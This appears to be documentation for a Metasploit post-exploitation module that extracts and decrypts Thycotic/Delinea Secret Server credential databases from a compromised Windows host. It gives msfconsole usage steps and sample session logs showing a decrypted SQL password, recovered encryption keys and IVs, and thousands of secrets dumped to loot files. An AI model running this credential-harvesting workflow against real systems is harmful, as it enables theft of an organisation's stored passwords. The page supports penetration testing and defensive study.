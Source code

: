 This module exports and decrypts Secret Server credentials to a CSV file; it is intended as a
post-exploitation module for Windows hosts with Delia/Thycotic Secret Server installed. Master
Encryption Key (MEK) and associated IV values are decrypted from `encryption.config` using a 
static key baked into the software; there is also support for encryption configs configured with
Windows DPAPI MachineKey protection. The module contains two actions, `dump` and `export`, the
former extracts the encrypted Secret Server database and performs decryption, and the latter
allows the encryption keys and encrypted database to be plundered for later offline decryption
in situations where expedience is necessary.

This module incorporates original research published by the authors of SecretServerSecretStealer,
a PowerShell script designed to harvest Secret Server credentials. The GitHub repo for
SecretStealer.ps1 includes tons of notes on the internals of Secret Server:

https://github.com/denandz/SecretServerSecretStealer

## Vulnerable Application
This module has been tested against Secret Server versions 8.4 through 11.2, though it may work on
earlier versions. It is intended to be run after successfully exploiting a Windows host with the
Delia/Thycotic Secret Server software installed. The module supports decryption of configuration
files that have been protected by Windows DPAPI, but does not support extraction of any secrets
if the system is configured with a Hardware Security Module (HSM).

## Verification Steps
This is a post module and requires a meterpreter session on the Microsoft Windows server host
with a configured instance of Delia/Thycotic Secret Server installed.

1. Start msfconsole
2. Get session on Secret Server host via method of choice and background it
3. Do: `use post/windows/gather/credentials/thycotic_secretserver_dump`
4. Do: `set session <session>`
5. Do: `dump` to extract and decrypt the Secret Server database, or `export` to extract the encrypted database only

## Options

### SESSION

Which session to use, which can be viewed with `sessions -l`

## Scenarios
Windows Server 2019 host running Secret Server 11.2 using the `dump` action:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/thycotic_secretserver_dump
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > set session 1
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > dump

[*] Hostname THYCOTIC IPv4 10.1.0.113
[*] Decrypt database.config ...
[+] Secret Server SQL Database Connection Configuration:
[+]     Instance Name: localhost\SQLEXPRESS
[+]     Database Name: SecretServer
[+]     Database User: sa
[+]     Database Pass: !-TUwX!_-gD-wak-cugyU-0GX0$vL-evYG2
[*] Secret Server Build 11.22
[*] Decrypt encryption.config ...
[+] Secret Server Encryption Configuration:
[+]        KEY: fc35d1abcade1c180c699e10fbb3efeb
[+]     KEY256: e768c5223bafa5481faca1ee10b63fb80c699e10ffa694ce29adc66963d05109
[+]         IV: 2c2df1a68dbc29adc66041bd6e6e4ad3
[*] Performing export and decryption of Secret Server SQL database
[*] Export Secret Server DB ...
[+] 47842 rows exported, 19915 unique SecretIDs
[+] Encrypted Secret Server Database Dump: /root/.msf4/loot/20220829112535_default_10.1.0.113_thycotic_secrets_288749.txt
[+] 47842 rows loaded, 19915 unique SecretIDs
[*] Process Secret Server DB ...
[-] SecretID 1395 field 'Notes' failed to decrypt
[-] SecretID 2050 field 'Notes' failed to decrypt
[-] SecretID 2506 field 'Notes' failed to decrypt
[-] SecretID 2549 field 'Notes' failed to decrypt
[-] SecretID 2558 field 'Notes' failed to decrypt
[-] SecretID 2566 field 'Notes' failed to decrypt
[-] SecretID 2567 field 'Notes' failed to decrypt
[-] SecretID 2583 field 'Notes' failed to decrypt
[-] SecretID 3393 field 'Notes' failed to decrypt
[-] SecretID 4060 field 'Notes' failed to decrypt
[!] SecretID 4092 field 'SFTP Site' contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 4103 field 'Notes' failed to decrypt
[-] SecretID 4174 field 'Notes' failed to decrypt
[-] SecretID 4625 field 'Notes' failed to decrypt
[-] SecretID 5393 field 'Notes' failed to decrypt
[-] SecretID 5647 field 'Notes' failed to decrypt
[-] SecretID 6018 field 'Notes' failed to decrypt
[-] SecretID 6250 field 'Notes' failed to decrypt
[-] SecretID 6263 field 'Notes' failed to decrypt
[-] SecretID 6657 field 'Notes' failed to decrypt
[-] SecretID 9169 field 'Notes' failed to decrypt
[-] SecretID 10577 field 'Notes' failed to decrypt
[-] SecretID 10777 field 'Notes' failed to decrypt
[!] SecretID 11097 field 'Notes' contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 11319 field 'Notes' failed to decrypt
[-] SecretID 11973 field 'Notes' failed to decrypt
[-] SecretID 11974 field 'Notes' failed to decrypt
[-] SecretID 11997 field 'Notes' failed to decrypt
[!] 47842 rows processed (26 rows failed)
[*] 45117 rows recovered: 34479 plaintext, 10638 decrypted (2699 blank)
[*] 45117 rows written (2699 blank rows withheld)
[+] 19836 unique SecretID records recovered
[+] Decrypted Secret Server Database Dump: /root/.msf4/loot/20220829112547_default_10.1.0.113_thycotic_secrets_357639.txt
[*] Post module execution completed
msf6 post(multi/gather/thycotic_secretserver_dump) > 
```

Windows Server 2019 host running Secret Server 11.2 using the `export` action:
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/thycotic_secretserver_dump
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > set session 1
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > export

[*] Hostname THYCOTIC IPv4 10.1.0.113
[*] Decrypt database.config ...
[+] Secret Server SQL Database Connection Configuration:
[+]     Instance Name: localhost\SQLEXPRESS
[+]     Database Name: SecretServer_112E
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Secret Server Build 11.22
[*] Decrypt encryption.config ...
[+] Secret Server Encryption Configuration:
[+]        KEY: 376f80b25053d74afcc321837442ddc9
[+]     KEY256: 5b0f4d7d2d89c180b62c64b881072d4cf2b6fd0487c9d4438050a4734a3ece19
[+]         IV: d933b2ad66c785891d4bc916cebdde15
[*] Performing export of Secret Server SQL database to CSV file
[*] Export Secret Server DB ...
[+] 3 rows exported, 1 unique SecretIDs
[+] Encrypted Secret Server Database Dump: /root/.msf4/loot/20220829113427_default_10.1.0.113_thycotic_secrets_175194.txt
[*] Post module execution completed